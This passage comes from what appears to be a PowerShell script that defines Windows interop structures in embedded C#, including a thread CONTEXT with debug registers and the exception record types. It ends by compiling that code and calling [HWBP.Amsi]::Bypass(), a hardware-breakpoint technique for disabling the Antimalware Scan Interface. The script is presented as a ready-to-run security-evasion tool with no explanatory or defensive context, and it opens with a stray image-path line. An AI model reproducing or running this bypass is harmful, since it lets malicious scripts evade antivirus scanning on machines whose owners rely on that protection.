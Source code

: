 ```powershell
			public ushort SegSs;
			public uint EFlags;
			
			public ulong Dr0;
			public ulong Dr1;
			public ulong Dr2;
			public ulong Dr3;
			public ulong Dr6;
			public ulong Dr7;
			
			public ulong Rax;
			public ulong Rcx;
			public ulong Rdx;
			public ulong Rbx;
			public ulong Rsp;
			public ulong Rbp;
			public ulong Rsi;
			public ulong Rdi;
			public ulong R8;
			public ulong R9;
			public ulong R10;
			public ulong R11;
			public ulong R12;
			public ulong R13;
			public ulong R14;
			public ulong R15;
			public ulong Rip;
			
			public XSAVE_FORMAT64 DUMMYUNIONNAME;
			
			[MarshalAs(UnmanagedType.ByValArray, SizeConst = 26)]
			public M128A[] VectorRegister;
			public ulong VectorControl;
			
			public ulong DebugControl;
			public ulong LastBranchToRip;
			public ulong LastBranchFromRip;
			public ulong LastExceptionToRip;
			public ulong LastExceptionFromRip;
		}
		
		[StructLayout(LayoutKind.Sequential)]
		public struct EXCEPTION_RECORD {
			public uint ExceptionCode;
			public uint ExceptionFlags;
			public IntPtr ExceptionRecord;
			public IntPtr ExceptionAddress;
			public uint NumberParameters;
			[MarshalAs(UnmanagedType.ByValArray, SizeConst = 15, ArraySubType = UnmanagedType.U4)] public uint[] ExceptionInformation;
		}
		
		[StructLayout(LayoutKind.Sequential)]
		public struct EXCEPTION_POINTERS {
			public IntPtr pExceptionRecord;
			public IntPtr pContextRecord;
		}
	}
}
"@

Add-Type -TypeDefinition $HWBP
[HWBP.Amsi]::Bypass()
```